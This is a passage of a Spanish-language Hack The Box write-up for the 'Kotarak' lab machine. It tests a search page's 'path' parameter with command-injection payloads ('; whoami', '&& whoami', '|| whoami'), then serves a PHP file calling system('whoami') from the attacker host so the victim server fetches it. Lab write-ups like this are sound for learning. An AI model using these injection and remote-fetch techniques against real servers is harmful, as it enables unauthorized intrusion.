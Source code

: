 De acuerdo con la descripción, tenemos que el sitio es un buscador privado, lo que nos hace pensar que puede mostrarnos el contenido web de algun sitio; sólo para probar vamos a ver que pasa si introduccimos el mismo sitio, es decir, `http://10.10.10.55:60000/`:

![](/assets/images/htb-kotarak/kotarak-web1.png)

Vemos que la dirección URL llama al recurso `url.php` y hace uso del parámetro `path`. A este punto, podemos hacer pruebas modificando el valor de `path` para ver que pasa. Podríamos tratar de inyectar comandos como por ejemplo:

- http://localhost:60000/; whoami
- http://localhost:60000/ && whoami
- http://localhost:60000/ \|\| whoami

Sin embargo, no obtenemos resultados. Vamos a probar si podemos ver archivos de nuestra máquina de atacante; así que nos creamos un archivo de prueba:

```bash
<?php
        system("whoami");
?>
```

Nos compartimos un servidor HTTP con python y tratamos de ver su contenido por el sitio web de la máquina víctima.

```bash
http://10.10.14.16/test.php
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.55 - - [19/Oct/2021 14:22:56] "GET /test.php HTTP/1.1" 200 -
```

![](/assets/images/htb-kotarak/kotarak-test.png)

